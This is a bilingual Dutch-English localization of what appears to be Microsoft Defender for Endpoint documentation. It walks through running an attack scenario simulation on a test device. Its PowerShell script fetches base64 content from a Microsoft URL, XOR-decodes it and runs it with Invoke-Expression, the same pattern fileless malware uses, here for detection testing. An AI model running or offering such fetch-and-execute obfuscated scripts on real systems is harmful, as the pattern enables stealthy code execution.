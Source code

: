    1. <span data-ttu-id="82884-146">Controleer of het testapparaat is [onboarded bij Microsoft Defender voor Eindpunt)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="82884-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="82884-147">Als u een bestaande tenant gebruikt en apparaatgroepen implementeert, maakt u een speciale apparaatgroep voor het testapparaat en drukt u deze op het hoogste niveau in configuratie UX.</span><span class="sxs-lookup"><span data-stu-id="82884-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="82884-148">De scenariosimulatie voor aanvallen uitvoeren</span><span class="sxs-lookup"><span data-stu-id="82884-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="82884-149">De scenariosimulatie van het aanvalsscenario uitvoeren:</span><span class="sxs-lookup"><span data-stu-id="82884-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="82884-150">Meld u aan bij het testapparaat met het testgebruikersaccount.</span><span class="sxs-lookup"><span data-stu-id="82884-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="82884-151">Open een Windows PowerShell op het testapparaat.</span><span class="sxs-lookup"><span data-stu-id="82884-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="82884-152">Kopieer het volgende simulatiescript:</span><span class="sxs-lookup"><span data-stu-id="82884-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="82884-153">Als u dit document opent in een webbrowser, kunt u problemen ondervinden bij het kopiëren van de volledige tekst zonder bepaalde tekens te verliezen of extra regel-onderbrekingen in te leiden.</span><span class="sxs-lookup"><span data-stu-id="82884-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="82884-154">Download dit document en open het in Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="82884-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="82884-155">Plak en voer het gekopieerde script bij de prompt uit.</span><span class="sxs-lookup"><span data-stu-id="82884-155">At the prompt, paste and run the copied script.</span></span>
